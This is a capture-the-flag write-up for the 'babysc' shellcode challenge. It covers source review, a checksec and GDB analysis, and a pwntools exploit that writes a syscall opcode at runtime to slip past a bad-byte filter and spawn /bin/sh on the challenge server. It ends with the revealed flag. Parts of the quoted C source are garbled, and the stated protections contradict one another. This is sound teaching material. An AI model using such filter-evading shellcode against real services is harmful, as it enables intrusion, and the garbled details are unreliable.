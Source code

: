 # babysc – 370

> shellcode
> 

> 34.133.69.112 port 10001
> 
- `babysc.c` – C source implementing the `mmap` + `read` + indirect call logic
- `babysc` – Compiled 64‑bit ELF (no PIE, NX disabled, no canary)
- `Dockerfile` – Ubuntu 22.04 image using `socat` to expose the service as non‑privileged `pwnuser`

# Summary
*In this challenge, you must craft shellcode to spawn a shell (via `execve("/bin/sh")`), inject it into the known RWX region at `0x26e45000`, and then read the flag.*

# Solution

### Examining the Request

1. **Review the C source**
    
    ```bash
    cat babysc.c
    ```
    
    ```c
    #include <stdlib.h>
    #include <stdint.h>
    #include <stdbool.h>
    #include <stdio.h>
    #include <unistd.h>
    #include <fcntl.h>
    #include <string.h>
    #include <time.h>
    #include <errno.h>
    #include <assert.h>
    #include <libgen.h>
    #include <sys/types.h>
    #include <sys/stat.h>
    #include <sys/socket.h>
    #include <sys/wait.h>
    #include <sys/signal.h>
    #include <sys/mman.h>
    #include <sys/ioctl.h>
    #include <sys/sendfile.h>
    #include <sys/prctl.h>
    #include <sys/personality.h>
    #include <arpa/inet.h>
    
    void shellcode;
    size_t shellcode_size;
    
    void vuln(){
        setvbuf(stdin, NULL, _IONBF, 0);
        setvbuf(stdout, NULL, _IONBF, 0);
    
        shellcode = mmap((void)0x26e45000, 0x1000, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE|MAP_ANON, 0, 0);
    
        puts("Enter 0x1000");
        shellcode_size = read(0, shellcode, 0x1000);
        for (int i = 0; i < shellcode_size; i++)
        {
            uint16_t scw = (uint16_t)((uint8_t )shellcode + i);
            if (scw == 0x80cd  *scw == 0x340f  scw == 0x050f)
            {
                printf("Bad Byte at %d!\n", i);
                exit(1);
            }
        }
       puts("Executing shellcode!\n");
        ((void()())shellcode)();
    }
    
    int main(){
    
        vuln();
    
        return 0;
    
    }
    ```
    
    > Maps a fixed RWX page at 0x26e45000, reads up to 0x1000 bytes from stdin into it, then jumps to that address.
    >
2. **Check the binary and protections**
    
    ```bash
    file babysc
    ```
    
    ```bash
    babysc: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=17c5713f0659b856ebda5cbc602cb5e28ce9249c, for GNU/Linux 3.2.0, not stripped
    ```
    
    > PIE-enabled, 64-bit ELF, dynamically linked, not stripped — but since execution happens in a fixed mmap region, PIE is not a barrier to exploitation.
    > 
    
    ```bash
    checksec --file=./babysc
    ```
    
    ```
    RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH    Symbols        FORTIFY    Fortified    Fortifiable    FILE
    Full RELRO      No canary found   NX disabled   PIE enabled     No RPATH   No RUNPATH   46 Symbols     No    0        2        ./babysc
    ```
    
    > **PIE enabled**, **NX disabled**, **no stack canary**, **Full RELRO** — protections are minimal where it matters; execution still occurs in a **fixed RWX mmap**, making shellcode injection fully viable.
    > 
3. **Inspect the service setup**
    
    ```bash
    cat Dockerfile
    ```
    
    ```
    FROM ubuntu:22.04
    RUN apt-get update && apt-get install -y socat
    RUN useradd -m pwnuser
    WORKDIR /home/pwnuser
    COPY ./babysc /home/pwnuser/babysc
    COPY ./flag /flag
    EXPOSE 10001
    USER pwnuser
    CMD ["socat","TCP-LISTEN:10001,reuseaddr,fork","EXEC:/home/pwnuser/babysc"]
    
    ```
    
    > The flag lives at /flag; each connection runs babysc under pwnuser.
    > 

### Disassembly & GDB Analysis

```bash
gdb -q babysc
```

```
# set up
break main
run

# inspect mapped regions
vmmap
```

> Confirms 0x26e45000–0x26e46000 is RWX.
> 

```
# disassemble vuln()
disass vuln
```

Key snippet:

```
   0x...5247    mov esi,0x1000
   0x...524c    mov edi,0x26e45000
   0x...5251    call mmap@plt
   ...
   0x...5278    mov rsi,rax
   0x...527b    mov edi,0x0
   0x...5280    call read@plt
   ...
   0x...5317    mov rax, QWORD PTR [rip+...shellcode]
   0x...5321    mov eax,0x0
   0x...5326    call rdx          ; jump into our shellcode
```

> The loop before call rdx simply prints offsets of any detected syscall stub but does not prevent execution.
> 

### Crafting and Sending the Payload
We use **pwntools** to build a **self‑writing** syscall stub:

```python
from pwn import *

context.arch = 'amd64'

BASE   = 0x26e45000      # mmap base
STUB   = BASE + 0x100    # where we'll write the two-byte syscall
BINSH  = BASE + 0x200    # where "/bin/sh" will live

# 1) Build the stub + execve("/bin/sh")
code = asm(f'''
    xor    rsi, rsi
    xor    rdx, rdx
    mov    rdi, {BINSH}
    mov    rbx, {STUB}
    mov    byte ptr [rbx], 0x0f
    mov    byte ptr [rbx+1], 0x05
    mov    eax, 59
    jmp    rbx
''')

# 2) Pad to embed "/bin/sh"
payload  = code
payload += b'\\x90' * (0x200 - len(code))
payload += b"/bin/sh\\x00"

# 3) Send to remote and spawn shell
p = remote("34.133.69.112", 10001)
p.send(payload)
p.interactive()
```

> This payload zeroes out RSI/RDX, points RDI at our "/bin/sh" string, writes the two‑byte syscall opcode at runtime to avoid any static detection, sets EAX=59, then jumps to perform the syscall.
> 

![image1](https://github.com/user-attachments/assets/7d25ccf1-d453-400f-84a8-67087e10b947)

![image2](https://github.com/user-attachments/assets/4b850778-3d33-4a81-bb1c-36c179e4dcdf)

```
**Flag** : umcs{shellcoding_78b18b51641a3d8ea260e91d7d05295a}
```

# Conclusion
By thoroughly reviewing `babysc.c`, checking protections with `file`/`checksec`, and disassembling in GDB (with `vmmap` and `disass`), we confirmed a fixed RWX mapping with minimal defenses. Crafting a concise self‑writing syscall stub with pwntools allowed us to reliably invoke `execve("/bin/sh")`, spawn a shell, and read the flag. This pattern—mapping executable memory, injecting shellcode, and transferring control—is a cornerstone of binary exploitation in CTFs.
